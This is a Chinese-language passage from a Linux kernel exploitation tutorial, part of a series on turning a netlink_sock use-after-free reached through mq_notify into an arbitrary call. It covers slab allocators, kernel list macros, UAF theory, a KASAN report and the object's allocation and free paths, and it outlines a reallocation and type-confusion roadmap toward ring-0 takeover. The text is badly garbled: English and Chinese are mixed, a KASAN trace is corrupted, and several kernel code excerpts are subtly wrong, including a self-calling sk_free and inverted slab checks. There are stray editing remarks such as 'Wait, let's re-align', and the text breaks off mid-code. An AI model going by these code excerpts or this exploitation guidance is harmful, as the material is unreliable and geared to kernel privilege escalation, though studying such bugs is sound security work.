





# Linux 内核进阶指南


- Linux
- 漏洞利用利用
- 漏洞
- 内核
- 逐步详解

## 引言

在上一旧文章中，我们实现了一个从用户态（usersland）触发漏洞的概念验证，并在第 1 部分通过 Tap 释放了内核修改。

本文从介绍内存子系统和 SLAB 分配器开始。这些都是非常庞大的主题，我们强烈建议读者探索所提到的资源。要利用任何类型的释放后使用（UAF）或堆溢出，理解这些内容是绝对必须的。

释放后使用的基本理论已经有了详尽解释，以及利用它们所需的信息收集策略也是如此。我们将尝试将其应用于该漏洞，并分析我们特定工具包中可用的不同原语（primitives）。将展示一种重新分配策略，将释放后使用转换为任意调用。最后，我们能够以受控的方式使内核崩溃（不再是随机崩溃）。

这里这里介绍的技术是 Linux 内核中使用释放后使用的常用方法（类型混淆）。此外，我们选择将释放后使用作为任意调用是因为存在硬编码的内容；漏洞利用无法是无目标的，也无法绕过 kASLR（内核版的地址布局随机化）。

请注意，这可以通过多种方式被利用以获取其他原语（即读/写），并通过绕过 kASLR/SMAP/SMEP（不过我们将在第 4 部分中绕过 SMEP）。概念验证代码已在手中，这正是我们作为漏洞编写者可以发挥创意的地方。

此外，内核运行在一个非常混乱的环境中。虽然这在之前的文章中不是问题，但现在会变成（由于重新分配）。这意味着，你的漏洞利用在一个地方可能会失败（因为你输掉了竞态条件），而大部分情况下会发生在这里。可靠地依赖于开放领域的主题，某些复杂的技巧无法在这个空间内实现。

最后，由于内核结构布局现在变得至关重要，且调试/生产内核中的这些布局不同，我们将与 System Tap 作别，因为它无法在生产环境内核上运行。这意味着我们需要使用更经典的工具来调试漏洞。此外，你们的结构布局将与我们的不同，如果不进行修改，这里提供的漏洞利用将在你们的系统上运行。

准备好崩溃（很多次）吧，乐趣才刚刚开始:-。


## 核心概念 #3

第三部分“核心概念”引入了内存子系统（也称为“mm”）。这是一个极其广泛的主题，仅为了涵盖内核的这部分。由于该部分内容并不充分，建议阅读以下文档。尽管如此，我们将展示 Linux 内核管理内存的数据结构，以便大家处于同一个“页面”（page，双关语）。

- 理解 Linux 内核 (2,8,9)
- 理解 Linux 虚拟内存管理器
- Linux 设备驱动：内存分配
- OSDev：分页机制

至少，请阅读《Understanding The Linux Virtual Memory》书的第 8 章。

在本课程的结束处，我们将包含 `container_of()` 宏，并展示 Linux 内核中双向循环链表的案例。将使用 `list_for_each_entry_safe()` 宏开发一个基础示例（这对于利用是强制的）。

## 物理页管理

任何操作系统的最关键的任务之一就是管理内存。它必须快速、安全、稳定并尽可能减少碎片。出于效率考虑，内存被划分为固定长度的连续内存块。这种块被称为页帧（page frame），（通常）大小为 4096 字节。可以使用 `PAGE_SIZE` 宏获取。

由于内核必须管理它，它会跟踪每一个空闲物理页以及相关信息。例如，它必须知道某个页面是否空闲。这类信息存储在 `struct page` 数据结构中（也称为“页描述符”）。

内核可以使用 `alloc_pages()` 请求一个或多个页面。处理这些请求的分配器被称为区域分配器（Zone Allocator）。由于它使用了伙伴算法（buddy system），通常被称为伙伴分配器（Buddy Allocator）。

## Slab 分配器

伙伴系统提供的“慷性”（generosity，此处可能指分配策略）并不适用于所有情况。例如，如果内核只想分配 128 字节内存，可能会浪费 3968 字节内存。这就是内部碎片。为了克服这个问题，Linux 实现了细粒度分配器：Slab。为了保持简单，Slab 负责处理 `malloc()` 管理。

内核提供了三种 分配器：

- SLAB 分配器：经典的，侧于缓存优化（Debian 仍在使用）
- SLUB 分配器：2007 年引入的“新”分配器（Ubuntu/CentOS）
- SLOB 分配器：为内存极有限的嵌入式系统设计

（注：后续文本存在大量重复和 OCR 错误，已根据逻辑进行了清理和合并。）


为了分配内存，Slab 存储固定大小的对象。这是通过使用一个 `struct kmem_cache` 数组来实现的

```c
struct array_cache {
    // 可用指针数量以及指向第一个空槽的索引
    unsigned int avail;                 // 最大指针数量
    unsigned int list;
    unsigned int batch;
    unsigned int touched;
    spinlock_t lock;
    void *entry[];                     // 实际的指针数组
}
```

`array_cache` 本身被用作后进先出（LIFO）数据结构（即栈）。这就是为什么在 SLAB 或 SLUB 上使用“释放后使用（use-after-free）”是高效的。。

在最快的缓存中，内存管理非常简单如下：

```c
static inline void __cache_alloc(struct kmem_cache *cache, gfp_t flags) // 是的...四个 ""
    void *obj;
    struct array_cache *ac;

    ac = cpu_cache(cache);

    if (likely(ac->avail)) {
        STATS_INC_ALLOCIT(cache);
        ac->touched++;
        obj = ac->entry[--ac->avail]; // <----
    }

    // cut ...

    return obj;
```

在极快缓存中，释放路径如下：

```c
static inline void __cache_free(struct kmem_cache *cache, void *obj)
{
    struct array_cache *ac = cpu_cache_get(cache);

    // cut ...

    if (unlikely(ac->avail < ac->limit)) {
        STATS_INC_FREEHIT(cache);
        ac->entry[ac->avail++] = obj; // <----
    }
    return;
}
```

换句话说，在最佳场景情况下，分配/释放操作的复杂度为 O(1)。

**警告：** 如果快速路径失败，该算法将回退到较慢的解决方案（扫描空闲/部分 slabs）甚至更慢的方案（缓存增长）。

请注意，**每个 cpu 都有一个 array_cache**。可以通过 `cpu_cache()` 获取当前运行的 cpu 数组。这样做（就像任何每-cpu 变量一样）会导致锁定操作，因此影响性能。

**警告：**数组中的每个指针可能属于不同的 slabs！

## 通用缓存与专用缓存

为了减少**内部碎片**，内核创建了几个对象大小为 2 的幂次的缓存（32, 64, 128, ...）。它保证了碎片将小于 50%。实际上，当内核尝试分配特定大小的内存时，它会搜索能够容纳该对象的上限缓存。例如，分配 100 字节将放入 128 字节的缓存中。

在 SLAB 中，通用缓存带有 "size-" 前缀（例如 "size-32", "size-64"）。在 SLUB 中，通用缓存带有 "kalloc-" 前缀（例如 "kalloc-32", ...）。由于我们认为 SLUB 更好，如果我们的目标在支持 SLAB 的环境下运行，我们将始终使用它。

为了从*通用缓存*中分配/释放内存，内核使用 `kalloc()` 和 `free()`。

某些对象将由内核使用，这创建了某些特殊的“专用”缓存。例如，`struct file` 是在很多地方使用的对象，它有自己的专用缓存（file）。通过为这些对象创建专用缓存，它们的内部碎片将接近于零。

为了从专用缓存中分配/释放内存，内核使用 `kmalloc_cache_alloc()` 和 `kmalloc_cache_free()`。

最后，`kmalloc()` 和 `kmalloc_cache_alloc()` 进入了 `_cache_alloc()` 函数。同样，get `free()` 和 `kmalloc_cache_free()` 都在 `_free()` 中。

注意：你可以在 /proc/slabinfo 列出这些缓存以及每个细节。

## container_of() 宏

`container_of()` 宏遍整个 Linux 内核。无论你现在还是以后需要理解它：让我们看看代码：

```c
#define container_of(ptr, type, member) ({ \
    const type *)((char *)(ptr) - offsetof(type, member)); \
})
```
*（注：原始 OCR 在宏中有错误，已修正为标准逻辑）*

`container_of()` 的目的是从结构体的一个成员获取结构体的地址。

- typeof(f) - 定义一个编译时类型
- offsetof(f) - 找到结构体中字段的偏移量（字节）

也就是说，它获取当前地址并相对于“嵌入者”结构体进行偏移。让我们来看一个完整的示例：

```c
struct foo {
    unsigned long a;
    unsigned long b; // 偏移=8
}

void* get_from_bl(unsigned long *ptr) {
    // "ptr 指向 "struct foo" 的 "b" 字段
    return container_of(ptr, struct foo, b);
}

void bar() {
    struct foo f;
    printf("%p\n", &f.a);            // << 打印 0x0000aa00
    printf("%p\n", &f.b);            // << 打印 0x0000aa00
}

void* ptr = get_from_bl(&f.b);
printf("%p\n", ptr);                // << 打印 0x0000aa00,"f" 的地址
```

## 双向链的使用

Linux 内核到处使用双向循环链。泛泛理解它们很重要，而且达到我们的实现是必须的。我们不再仅仅查看实际实现，而是开发一个简单的示例来理解它们的工作原理。到本节结束，你应该能够理解 `list_for_each_entry`。

注意：为了保持本节简单，我们将使用 "list" 代替 "双向链表”。为了处理它，Linux 使用了一个单一结构体：

```c
struct list_head {
    struct list_head *next, *prev;
};
```

这是一个双用途结构体，可以用于：
- 表示列表本身（即“头节点”）
- 表示列表中的一个元素

列表可以通过 `INIT_LIST_HEAD` 初始化，这使得 next 和 prev 都指向列表：

```c
static inline void INIT_LIST_HEAD(struct list_head *list) {
    list->next = list;
    list->prev = list;
}
```

让我们定义一个虚构的资源所有者：

```c
struct resource_owner {
    char name[32];
    struct list_head list;
};
```

并定义一个资源结构：

```c
struct resource {
    int id;
    struct list_head list;
};
```

我们可以通过 `INIT_LIST_HEAD` 初始化一个列表：

```c
struct resource_owner owner;
INIT_LIST_HEAD(&owner.list);
```

现在我们向列表中添加一个资源：

```c
struct resource *res = kmalloc(sizeof(*resource), GFP_KERNEL);
res->id = 1;
INIT_LIST_HEAD(&res->list);
list_add(&res->list, &owner.list);
```

我们可以遍历该列表：

```c
struct resource *entry;
list_for_each_entry(entry, &owner.list, list) {
    printf("resource ID: %d\n", entry->id);
}
```

我们可以删除一个元素：

```c
list_del(&res->list);
kfree(res);
```

最后，释放所有资源：

```c
list_for_each_entry_safe(entry, &owner.list, list) {
    kfree(entry);
}
```


```c
void release_consumer(struct resource_consumer *rc) {
  if (rc) {
    list_del(&rc->elt);
    free(rc);
  }
}
```

由于参数中没有使用 `struct list_head`，`release_all_consumers()` 函数可以使用 `list_for_each_safe(list, )` 宏进行重写：

```c
#define list_for_each_safe(pos, head, member) \
  for (pos = list_first_entry(head, typeof(pos), member); \
       n = list_next_entry(pos, member); \
       &pos->member != (head); \
       pos = n = list_next_entry(n, member))
```

即：

```c
void release_all_consumers(struct resource_consumer *owner) {
  struct resource_consumer *rc, *next;
  list_for_each_safe(rc, next, &consumer_list, list_elt) {
    release_consumer(rc);
  }
}
```

太好了，我们的代码不再使用 `list_head` 变量了。

希望你现在理解了 `list_for_each_safe()` 宏。如果还没有，请重新阅读这一部分。理解它是强制性的，因为我们将在漏洞利用中达到我们的任意调用原语。由于偏移量的原因，我们将通过汇编来查看它！现在理解它会更好些……

# 使用后释放 (Use-after-free) 101

本节将介绍使用后释放的基础理论、利用利用的先决条件以及最常见的利用策略。

## 模式 (The Pattern)

很难为这种漏洞找到更好的名字了，因为它的名字中已经描述了所有内容。使用后释放最简单的模式是：

```c
int *ptr = (int)malloc(sizeof(int));
*ptr = 54;
free(ptr);
*ptr = 42; // << 使用后释放
```

原因在于在调用 `free(ptr)` 之后，`a` 仍然知道内存中有什么内容（通过 `ptr` 使用）。这被称为**悬空指针**。对指针进行读或写操作是未定义行为。在最好的情况下，这只是一个空操作。在最坏的情况下，这可能会导致应用程序（内核）崩溃。

## 信息收集 (Information Gathering)

利用内核中的使用后释放漏洞通常遵循相同的方案。在尝试之前，你必须能够回答这些问题：

- 1. 分配器是什么？它是如何工作的？
- 2. 我们在讨论的是什么对象？
- 3. 它属于哪个缓存（cache）？对象大小是多少？专用还是通用的？
- 4. 它在哪里被分配/释放？
- 5. 对象在释放后在哪里被使用？如何使用（读/写）？

为了这些问题，Google 的人员添加了一个 Linux 补丁：KASAN（内核地址消毒器）。典型的输出如下：

# ========== BUG: kernel:use-free-in_debug_spinlock //+ "where"

BUG: kernel:use-free-in_raw_spinlock@0x02ea/0x320

kernel/spinlock/spinlock_debug.c:91
Read of size 4 at fffff8884150ba34 by taskworker/1:1/5712 //+ "how"

CPU: 0 PID: 1234 tid: 11.0/rcu-c3-221032#4
Hardware name: Google/Compute Engine/Compute Engine/google.com
BIOS Code 01/01/2021
Workqueue:events_efficient_process_cpu

Call Trace: //+ call trace

```
that reach
dump_stack dump_stack.c:16
dump_stack+2b/0xff88a2bf0/dump_stack.c:52
parse_print_description=0x7ff/0x260/kernel/report.c:250
kasan_report=0x2f1/0x310/kernel/report.c:372
kasan_report_part=0x2f1/0x392/kernel/report.c:132
kasan_report=0x2f21/0x32b/kernel/report.c:392
debug_spinlock_unlock=kernel/spinlock_debug.c:96
draw_spinlock_unlock+0x22ea/0x320/kernel/spinlock/spinlock_debug.c:134
raw_spinlock_unlock+0x19/0xff88a2bf7/kernel/spinlock.c:167
raw_spinlock_unlock_irq+0x22ee/0x278/kernel/spinlock.c:159
sraw_spinlock_unlock_irq_include/linux/spinlock.h:349
srcu_reclaim=0x5de/0x611/kernel/rcu.c:680
process_cpu=0x63/0x83c/kernel/workqueue.c:207
process_workqueue=0xb8/0xa18/kernel/workqueue.c:2097
thread+0x3b8/0x3f8/kernel/workqueue.c:2231
kthread+0x36/0x430/kernel/thread.c:233
rem_from_work=0x41a/0x41a/kernel/entry.c:53
Allocated by task 2096 //+ where
save_stack_trace=0x16/0x26/kernel/6/c/stacktrace.9:5_
savekason000dd0xdd///kasonason.:535
set_trace k__report=0x48//kkasonasonc:22

ason_kmalloc=0x5a/0x90/kernel/kason.c:69
kmem_cache_alloc=0x1db/0x17f/slab.c:363
kmalloc=linux/slab.h:892
kzalloc=linux/slab.h:665
host_create=0x84/0x94/virt/host.c:773
kvm_arch_use=linux/include/kvm.m.c::11
kvkvm_dev=0x86/0x1a/virt/kvm.c:316

mm_exit=0xb1f/0x3f/virt/kvm.c:3205
dofs_exit=0xb1f/0x1f/fs.c:605
vfs_info=0x7c/0x9fc/fs.c:708
sys_list_info=0x7f/0x9f/fs.c:621
ENTRY_SYSCALL=0x54/fastpath+0x1f/0xf18

Freed by task 20958 //+ where
save_stack_trace=0x16/0x26/kernel/stacktrace.c:59
save_stackkason=0x4d/0x5d/kernel/kason.c:535
set_trace kason_report=0x48/kernel/kason.c:527
kason_free=0x88/0xb8/kernel/kason.c:592
cache_free=0x3b/0x7b/slab.c:351
free=0xf28/0xb8/slab.c:302
host_create_include=linux/include/virt/host.c:778
kvm_destroy_vm=0x86/0x86/virt/kvm.c:732
kvm_put_kvm_device=0xb7/0xf7/virt/kvm.c:347
kvm_put_page=0x74/0x114/virt/kvm.c:758
_put=0x332/0x380/file.c:209
task_work_run=0xb9/0x197/kernel/taskwork.c:116
exit_task_include=linux/include/taskwork.h:21
d_dit_exit=0x53/0x103/kernel/exit.c:780
group_exit=0x19/0x140/kernel/exit.c:902
get_signal=0xb7d/0x128/kernel/signal.c:2318
syscall_enter_user_mode=0x6f/0xb26/entry/signal.c:800
prepare_exit_user=0xc7/0x17/entry/common.c:194
syscall_enter_commonpath=0xb43/0xb87/entry/common.c:263
ENTRY_SYSCALL=0x54/fastpath+0x1f/0xf18

The debug address to the object at fffff8884150b164 belongs to the kason-kmalloc-65536 of size 65536 //+ the object's cache the address is 3694 bytes from 65536 the debug belongs to the page: //+ even memory

```
info page:fffff884150b168 count:1 mapping: fffff884150b164
dub_object=kason_alloc_count:1 flags: 0x02000000000008(slab:head) ref rad:000000000000000000
```

Memory state around the buggy address:

```
ffff00a4bfa20 fffff00a4bfa20 fffff8880b0d0
```
Wait, let's re-align:
```
ffff00a4bfa20 fffff00a4bfa20 fffff884150b164
8880145a00:0000
                                     ^
```

Pretty now, isn't it?

**NOTE:** The previous error report has been taken from syzkaller.

Expliting use-after-free with "type confusion" imposes that the target object belongs to a **general purpose cache**. If this is not the case, there are techniques to do this but this is a bit more "advanced", we won't cover it here.

## 通过使用后释放 (UAF) 进行类型混淆 (Type Confusion)

There are multiple ways to exploit use-after-free. For instance, one can play with allocator to manipulate-data. Doing this in the kernel can be tricky. It also increases the likelihood of failure while trying to repair the kernel.

A common way to exploit UAF in the kernel is through **type confusion**. A type confusion occurs when the kernel misinterprets the data. It uses data (a pointer) that it thinks is one type actually points to another type. Because it is done in C, type checking is performed during compilation.

In order to exploit UAF, the roadmap is:

- 1. 准备合适的内核状态（例如让一个 socket 就绪）
- 2. 触发目标对象的漏洞的同时保持悬空指针不变
- 3. 立即**重新分配**另一个可以控制数据的对象
- 4. 从悬空指针触发使用后释放**原语**
- 5. Ring-0 接管
- 6. 修复内核并清理所有内容
- 7. 享受！

**WARNING:** Exploiting use-after-free with "type confusion" imposes that the target object belongs to a **general purpose cache**. If this is not the case, there are techniques to do this but this is a bit more "advanced", we won't cover it here.

## 分析 UAF (缓存、分配、释放)

在本节中，我们将回答“信息收集”步骤中的问题。

# 分配器是什么？它是如何工作的？

在我们的目标中，分配器是 SLAB 分配器。正如核心概念 3 中提到的，我们可以从内核**配置文件**中获取这些信息。另一种方法是检查 `/proc/slabinfo` 中的通用缓存名称。它们以 "size-\-" 或 "kmalloc-" 开头。

我们对你的分配器结构所的操作有了更好的视角，特别是 **array_cache**。

**NOTE:** 如果你不了解你的分配器（尤其是 kmalloc/kfree 代码路径），现在可能是时候学习它了。

### 我们在讨论的是什么对象？

如果你还没有在第 1 部分和第 2 部分观察过，一个受到使用后释放的对象是 **struct netlink_sock**。


```c
// include/net/netlink_sock.h
struct sock {
    /* struct sock 必须是 netlink_sock 的第一个成员 */
    struct sock {
        u32 pid;
        u32 dst_pid;
        u32 dst_group;
        u32 flags;
        u32 subscriptions;
        unsigned long *groups;
        unsigned long state;
        wait_queue_head_t wait_queue_head;
        struct netlink_callback *cb;
        struct mutex mutex;
        struct mutex *cb_def;
        struct mutex;
        void (*netlink_sk)(struct sk_buff *skb);
        struct module *module;
    };
```

注意，这并不是我们的情况。可能需要一些时间来确定 UAF（使用后释放）中的对象。通过我们子对象中的某个特定对象（即处理它们生命周期的对象）。UAF 可能位于此类子对象之一（即不是顶层/主对象）。

### 它在哪里被释放的？

在第一部分中，我们看到进入 `mq_notify()` 时，sock 的引用计数（refcount）被设置为零。引用计数在 `(netlink_getsockby_ip)` 中增加，在 `netlink_attachskb()` 中减少 1，并在其他时间（在 `netlink_detachskb()` 中）减少 1，这产生了以下调用堆栈：

- mq_notify
- netlink_detachskb()      // ---- atomic_dec_and_test(&sk->refcnt)
- sock_put

因为引用计数达到了零，它通过调用 `sk_free` 被释放。

```c
void sk_free(struct sock *sk) {
    /*
     * 我们从 sk_wmem_alloc 中减去，并可以知道
     * 是否某些数据包仍在发送队列中。
     * 如果不为空，sock_free() 之后会调用 _sk_free(sk)
     */
    if (atomic_dec_and_test(&sk->sk_wmem_alloc)) {
        sk_free(sk);
    }
}
```

记住 `sk_wmem_alloc` 是缓冲的“当前”大小。在 `netlink_sock` 初始化期间，它被设置为零。因为我们没有从目标 sock 设置它，所以在当调用 `sk_free()` 时它仍然是零。在这里，调用的是 `_sk_free()`。

```c
// [net/core/sock.c]
static void _sk_filter(struct sock *sk) {
    struct sock *filter;
    if (sk->sk_destruct) {
        sk->sk_destruct(sk);
    }
    // ... cut ...
    [1] sk_prot_free(sk->sk_prot_creator, sk);
}
```

在 (0) 中，`_sk_free()` 为 sock 提供了调用“特化”析构函数的机会。在 [1] 中，它调用 `sk_prot_free()` 并传入类型为 `struct proto` 的 `sk_prot_create` 参数。最后，根据其缓存（下一节）释放对象：

```c
static void sk_prot_free(struct proto *proto, struct sk *sk) {
    struct kmem_cache *cache;
    struct module *owner;

    owner = prot->owner;
    slab = prot->slab;

    security_sk_free(sk);
    if (slab == NULL) {
        kmem_cache_free(slab, sk); // << 是这一个... 
    } else {
        kfree(sk); // << 是这一个？
    }
    module_put(owner);
}
```

也就是说，最后的“释放”慰藉：

```text
<<< 任何调用 sk_put 的一个 netlink_sock (例如 netlink_detach_skb)) >>>
    sock_put;
    sk_free;
    sk_free;
    sk_prot_free;
    kmem_cache_free
```

**注意:** 记住 `sk` 和 `netlink_sock` 都是别名（部分1）。这意味着，释放 `struct sock` 指针会释放 `netlink_sock` 对象！

我们需要解析最后的调用函数。为此，我们需要知道它属于哪个缓存：

### 它属于哪个缓存？

记住 Linux 是一个带有抽象层的对象系统。`struct proto` 实际上写了多层抽象：

- 1. socket 的（struct file）特化：socket_file_ops
- 2. BSD socket（struct sock）特化：netlink_ops
- 3. netlink 的 sock 上（struct sock）特化：netlink_ops

**注意:** 我们将在下一节获取 `netlink_family_ops`。

与 `sk_file_ops`（大部分是虚函数表 VFT）不同，`struct proto` 稍微复杂一点。它有 VFT，但也管理 `struct sock` 的生命周期。具体来说，特化的 struct 对象可以被分配。

在我们的情况下，最重要的是 **slab** 和 **obj_size**：

```c
// <include/net/sock.h>

struct proto {
    // 专用缓存（如果有）
    unsigned int obj_size;
    // 特化的 sock 对象大小
    struct module *owner;
    // 用于 Linux 模块引用计数
    char name[32];
};
```

对于 netlink struct 对象，proto 是：

```c
static struct proto netlink_proto = {
    .name = "NETLINK",
    .owner = THIS_MODULE,
    .obj_size = sizeof(struct netlink_sock),
};
```

**obj_size 并没有** 最终的分配大小，只是它的一部分（见下一节）。可以看到，`netlink_proto` 的某些字段是空的（即 NULL）。

在 Linux 中，模块在启动时加载，或者以“懒加载”的方式加载。在任何情况下，都会调用“init”函数（如果特定的 sock）。在 netlink 情况下，该函数执行了两件事：

- 1. 调用 `proto_register(&netlink_proto, 0)`
- 2. 调用 `sock_register(&netlink_family_ops)`

`proto_register()` 取决于协议是否使用专用缓存，如果是创建一个 kmem 缓存，否则使用通用缓存。这取决于参数 `alloc_slab` 且实现如下：

```c
// [net/core/sock.c]
int proto_register(struct proto *prot, int alloc_slab) {
    if (alloc_slab) {
        prot->slab = kmem_cache_create(prot->name, // <-- 创建 kmem 缓存
            alloc_size(prot->obj_size), // <-- 使用 prot->obj_size
            SLAB_CACHE_ALIGN | proto_flags(prot),
            NULL);
    }

    if (!prot->slab) {
        printk(KERN_CRIT, "%s: cannot create SLAB cache!\n", prot->name);
        goto out;
    }

    // ... cut (分配其他东西) ...

    // ... cut (在 proto_list 中注册) ...

    return 0;

// ... cut (错误处理) ...
}
```

这是协议拥有专用缓存的唯一地方。由于 `netlink_proto_init()` 调用 `proto_register` 时将 `alloc_slab` 设置为零，netlink 协议使用通用缓存。正如你所猜的，涉及的缓存取决于协议的 `obj_size`。

### 它在哪里分配？

到为止，我们知道在“协议注册”期间，netlink 注册了一个名为 `netlink_family_ops` 的 `struct_proto_family`。这个结构非常简单（一个创建回调）：

```c
struct net_proto_family {
    int net;
    int family;
    (*create)(struct net, struct socket *sock,
             int protocol, int kern);
    struct module *owner;
};
```

```c
static struct net_proto_family netlink_family_ops = {
    .family = PF_NETLINK;
    .create = netlink_create, // <-----
    .owner = THIS_MODULE,
};
```

当 `netlink_create()` 被调用时，socket 已经分配了。它的目的是分配 `struct netlink_sock`，将其关联到协议并初始化 `struct socket` 和 `struct netlink_sock` 字段。这也是对 socket 类型（RAW, DGRAM）和 netlink 协议标识符（NETLINK_USER, ...）的某些合理检查。

```c
static int netlink_create(struct net net, struct socket *sock, int protocol)
{
    struct mutex *module = NULL;
    struct mutex *cb_mutex;
    struct netlink_sock *nlk;
    int err = 0;

    socket->state = SS_CONNECTED;

    if (socket->type != SOCK_RAW && socket->type != SOCK_DGRAM) {
        return -ESOCKETNOTSUP;
    }

    if (protocol < 0 || protocol >= MAX_LINUX) {
        return -ENOPROTOSUP;
    }
    // ... cut (如果协议尚未注册则加载模块 - 懒加载) ...
    err = _netlink_create(net, sock, cb_mutex, protocol, kern); // <----
    if (err != 0) {
        goto out;
    }
out:
}
```

反过来，`netlink_create()` 是 `struct netlink_sock` 创建的核心。

```c
static int _netlink_create(struct net, struct socket *sock, int protocol, int kern)
{
    struct mutex *cb_mutex;
    struct socket *sk;
    struct netlink_sock *nlk;

    struct netlink_sock_ops *ops = &netlink_ops;

    sk = kmalloc(alloc, PF_NETLINK, GFP_KERNEL, &netlink_protocol);
    if (!sk) {
        return -ENOMEM;
    }

    sock_init_data(sock, sk);

    // ... cut (mutex 相关) ...

```


```c
static struct *sk_prot_alloc(struct gfp *prot, int priority) {
    struct sk *sk;
    struct kmem_cache *slab;
    slab = prot->kmem_cache;
    if (slab == NULL) {
        sk = kmalloc_cache(slab, priority, &GFP_ZERO); // <----
        // ... cut (zeroing the freshly allocated object) ...
    } else {
        sk = kmalloc(alloc_size(prot->obj_size), priority); // <----
        // ... cut ...
    }
    return sk;
}
```

如“netlink registration”所示，它没有使用任何 slab（即 slab 为 NULL），因此它将使用 **kalloc()**。

最后，我们需要为 **netlink_create()** 缓存。有人可能会好奇，入口是 **socket()**。我们将按照这个顺序展开整个路径。结果如下：

- SYS_CALL(socket)
- sock_create // 分配一个 "struct socket"
- pf_create // pf == netlink_family_ops
- netlink_create
- _netlink_create
- sk_alloc
- sk_prot_alloc
- kmalloc

由于 netlink_socket 是通过 **kmem** 分配的，而不是通过 **kmem_cache**（通用缓存），但它会使用 **kmalloc-32** 还是 **kmalloc-64** ？

#### 静态/动态检测对象大小

在上一节中，我们看到 netlink_socket 是从一个通用的 kmem_cache 分配的，如下：

```c
kmalloc(sk_alloc_size(prot->obj_size), priority)

sk_alloc_size() {
```

```c
